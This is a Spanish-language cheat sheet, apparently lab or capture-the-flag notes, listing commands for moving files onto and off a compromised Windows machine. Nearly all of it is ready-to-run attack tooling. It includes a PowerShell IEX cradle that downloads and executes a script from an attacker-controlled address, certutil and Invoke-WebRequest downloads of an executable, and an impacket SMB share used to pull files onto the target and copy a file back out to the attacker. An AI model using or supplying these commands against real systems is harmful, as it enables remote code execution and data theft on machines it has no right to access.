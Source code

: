 ** Internet Explorer desde cli con Powershell **
`IEX(New-Object Net.WebClient).downloadString('http://<own_ip>:<puerto>/archivo')`

** Desde Powershell **
`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<own_ip>:80/bill.exe', 'C:\Users\Kostas\Desktop\bfill.exe')"`

`powershell Invoke-WebRequest "http://<own_ip>:80/bill.exe" -OutFile "C:\Users\Kostas\Desktop\bfill.exe"`

`Invoke-WebRequest http://10.10.14.6:8000/PowerUp.ps1 -o PowerUp.ps1`

** Transferencia con Powershell a un entorno de 64 bits **
`start /b C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<own_ip>:<puerto>/archivo'`

** Transferencia desde cmd **
certutil.exe --> Parte de Certificate Server de Windows, para volcar y mostrar la info de configuración de la entidad de certificados (CA), configuración de servicios de CA, realizar copias de seguridad, restaurar componentes de CA y comprobar certificados, pares de claves y cadenas de certificados.
`certutil.exe -f -urlcache -split http://<own_ip>:<puerto>/bfill.exe bfill.exe`

** Transferencia con el protocolo SMB creando una unidad logico-fisica **
>Crear una unidad lógica en la máquina local
>Servidor samba que comparte directorio smbFolder que está en nuestro directorio $(pwd)
>`impacket-smbserver smbFolder $(pwd)`
>Sincronizar unidad lógica con la unidad lógica en la máquina Windows objetivo
>`New-PSDrive -Name "ShareFolder" -PSProvider "FileSystem" -Root "\\<own_ip>\smbFolder"`
>Accedemos a la unidad física en Windows objetivo
>Listará los archivos de smbFolder en máquina local
>`dir ShareFolder:\`
>Copiar el archivo que queremos
>`copy ShareFolder:\bfill.exe C:\Users\Kostas\Desktop\bfill.exe`

** Transferir archivo en máquina objetivo (Windows) a máquina local **
> Montar servidor SMB:
> `impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar`
> Autenticarse desde Windows (máquina objetivo) a servidor SMB en en máquina local.
> `net use \\10.10.14.6\smbFolder /u:s4vitar s4vitar`
> Transferir archivo:
> `copy checks.txt \\10.10.14.6\smbFolder\checks.txt`


